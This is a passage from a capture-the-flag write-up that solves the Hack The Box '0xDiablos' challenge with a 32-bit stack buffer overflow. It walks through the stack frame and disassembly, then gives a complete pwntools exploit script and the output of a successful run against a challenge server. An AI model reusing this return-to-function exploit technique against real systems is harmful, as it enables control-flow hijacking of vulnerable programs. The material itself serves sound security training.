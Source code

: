 | **flag() stack frame** | 
|------------------------|
| <center> flag() address         |
| <center> some return address    |
| <center> flag args...           |

now that thing are clear we just have to constructe our payload 
which will look like :

`a*188+flag() address+ random return address+arg[1]+arg[2]`

note that here the return address is supplied as random because it doesn't matter to us though the programm may crash after it prints the flag

+ for the arguments that we need to supply we can find them in the disassamble of flag()
```asm
   ...              ....            ...
   0x0804923e <+92>:    call   0x8049050 <fgets@plt>
   0x08049243 <+97>:    add    esp,0x10
   0x08049246 <+100>:   cmp    DWORD PTR [ebp+0x8],0xdeadbeef
   0x0804924d <+107>:   jne    0x8049269 <flag+135>
   0x0804924f <+109>:   cmp    DWORD PTR [ebp+0xc],0xc0ded00d
   0x08049256 <+116>:   jne    0x804926c <flag+138>
      ...              ....            ...

```
the first argument is `0xdeadbeef ` and the second is `0xc0ded00d`

all the thing are in place , finally let's glow everything with pwntools and the final script is something down these lines:

```py
#!/bin/python3
from pwn import *
from struct import pack

first_param = 0xdeadbeef  # Changed from 0xdeadbeef to match the target program
second_param = 0xc0ded00d
flag_address = 0x080491e2

# Construct the payload
payload = b"A" * 188+p32(flag_address)+b'a'*4+p32(first_param)+p32(second_param)  # Second parameter follows the first
# Start the process
conn = remote('83.136.252.57',49324)  # Assuming the binary is named 'vuln-32' for 32-bit
conn.sendline(payload)
conn.interactive()
```

```
╭─kali at kali in ~/Desktop/test
╰─○ ./exp.py   
[+] Opening connection to 83.136.252.57 on port 49324: Done
[*] Switching to interactive mode
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd0\xde\xc0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe2\x9aaaaﾭ\xde
HTB{0ur_Buff3r_1s_not_healthy}$                                                                               [*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to 83.136.252.57 port 49324
```
woow we got flag ! after hours and people getting first blood in 3 min 😪 anyways thanks a loot for steaking till the end and i have you learned something new.